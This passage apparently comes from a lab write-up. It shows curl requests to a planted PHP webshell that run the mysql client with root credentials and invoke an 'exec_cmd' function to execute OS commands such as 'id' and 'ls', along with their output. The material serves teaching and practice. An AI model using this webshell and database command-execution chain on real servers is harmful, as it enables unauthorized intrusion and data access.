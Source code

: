 #### exec_cmd

I can run the `mysql` binary through this webshell:

    
    
    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT @@version"'
    @@version
    5.7.30-0ubuntu0.18.04.1
    

The `exec_cmd` function does return output when run this way:

    
    
    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"id\");"'
    exec_cmd("id")
    uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
    

For some reason it appends a ton of `\0` to the end. Multi-line output isn’t
handled very well (as in most of it doesn’t come through):

    
    
    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"ls /var/lib/mysql\");"'
    exec_cmd("ls /var/lib/mysql")
    auto.cnf\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
    